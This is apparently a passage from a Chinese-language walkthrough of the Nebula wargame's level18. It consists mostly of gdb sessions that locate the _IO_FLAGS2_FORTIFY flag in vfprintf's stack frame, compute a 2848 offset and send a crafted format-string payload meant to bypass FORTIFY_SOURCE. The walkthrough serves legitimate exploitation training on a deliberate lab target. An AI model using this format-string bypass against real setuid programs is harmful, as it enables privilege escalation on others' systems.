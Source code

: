 ```
level18@nebula:/tmp$ gdb -q /home/flag18/flag18
Reading symbols from /home/flag18/flag18...(no debugging symbols found)...done.
(gdb) b vfprintf
Function "vfprintf" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y
Breakpoint 1 (vfprintf) pending.
(gdb) r -d out -vvv
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/flag18/flag18 -d out -vvv

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.

...

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/20x $eax
0xbfd49b40:     0xfbad8004      0xbfd4a0d8      0x4006892c      0xbfd4a108
0xbfd49b50:     0xbfd47b40      0xbfd47b40      0xbfd49b40      0x00000000
0xbfd49b60:     0x00000000      0x00000000      0x00000027      0x08049017
0xbfd49b70:     0xfbad8004      0x00000000      0x00000000      0x00000004 &lt;== _IO_FLAGS2_FORTIFY
0xbfd49b80:     0xbfd47b70      0xbf007ba6      0x00000000      0x00000000
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x40069359 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) p/d ((0xbfd49b7c-$ecx)&amp;0xfffffff)/4+1
$7 = 2848

(gdb) x/i $eip
=&gt; 0x40069359 &lt;vfprintf+4649&gt;:  movl   $0x0,(%edx,%eax,4)
```

`_IO_FLAGS2_FORTIFY`的地址为0xbfd49b7c，文章中提到一般为`$eax+60`，栈地址在`$ecx`中，由此可以计算出偏移为2848，留意报错时的`eip`，下一步在这里下一个断点，验证偏移是否正确。

```
(gdb) r -d out -vvv
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/flag18/flag18 -d out -vvv

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.
site exec %1$*2848$x %1073741824$

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb)  tb *(vfprintf+4649)
Temporary breakpoint 2 at 0x40069359
(gdb) c
Continuing.

...

Temporary breakpoint 2, 0x40069359 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
```